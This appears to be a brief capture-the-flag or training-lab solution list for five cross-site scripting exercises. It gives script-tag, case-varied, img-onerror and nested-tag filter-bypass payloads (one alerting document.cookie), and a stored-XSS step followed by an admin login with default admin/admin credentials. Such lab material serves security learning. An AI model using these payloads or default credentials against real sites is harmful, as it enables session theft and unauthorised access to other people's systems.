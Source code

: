 ## Lab 1
   Search= `<script>alert(origin)</script>`  

## Lab 2
   Search= `<scripT>alert(origin)</script>`  


## Lab 3
   Search= `<img src=abc onerror="alert(origin)">`  


## Lab 4
   Search= `<<script>script>alert(document.cookie)<<script>/script>`  


## Lab 5
   Step 1: Send a report with the message: `<script>alert(origin)</script>`

   Step 2: Access the admin page with username=`admin`&password=`admin`

